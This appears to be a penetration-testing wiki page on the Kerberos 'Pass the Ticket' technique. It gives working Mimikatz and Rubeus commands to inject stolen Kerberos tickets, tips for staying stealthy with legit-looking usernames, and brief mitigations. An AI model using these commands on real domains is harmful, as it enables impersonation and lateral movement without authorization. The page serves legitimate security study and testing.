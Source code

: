# Pass the Ticket
---

## Vulnerability

If you gain local administrator rights on a domain joined computer, you can take advantage of this situation to extract Kerberos tickets and import them in your current session to impersonate a user. By doing this, you could be able to lateralize on the network and access other services protected with Kerberos authentication.

## Prerequisites

* Local administrator rights on a domain joined computer.

## Exploit

To export Kerberos tickets, please refer to [Cached Credentials Extraction](/windows/credentials/) page. Once you extracted the Kerberos TGT or TGS you want, you can now import it in your current session. TGS format is something like **`[0;12bd0]-0-0-40810000-<$username>@cifs-<$target>.kirbi`.**

{: .warning }
> Since a session can contain only one TGT at the time, injecting Kerberos ticket inside an existing session **might cause authentication issues** for the user. Prefer create a dummy session before by using one of the commands below. More, if you want to be stealthy, provide usernames that sound legit.
> ```
> # With command prompt.
> runas.exe /netonly /user:$Username C:\Windows\System32\cmd.exe
> 
> # With Rubeus, more stealthy since you provide a legit username.
> .\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /username:$Username /password:$Whatever /domain:$DomainName 
> ```

To inject the ticket, you can use [Mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
kerberos::ptt [0;12bd0]-0-0-40810000-<$username>@cifs-<$target>.kirbi

# List current Kerberos tickets to check injection worked.
klist
```

You can also perform this attack using [Rubeus](https://github.com/GhostPack/Rubeus).

```powershell
.\Rubeus.exe ptt /luid:$LUID /ticket:$Base64EncodedTicket

# List current Kerberos tickets to check injection worked.
.\Rubeus.exe triage /luid:$LUID
```

You can now take advantage of this ticket to lateralize on the network by impersonating the corresponding account.

## Recommendations

- [ ] Enable additional LSA Protection. The LSA includes the LSASS process. By setting a registry key, Windows prevents reading memory from this process.
- [ ] Enforce EDR on computers to detect and prevent Mimikatz usage.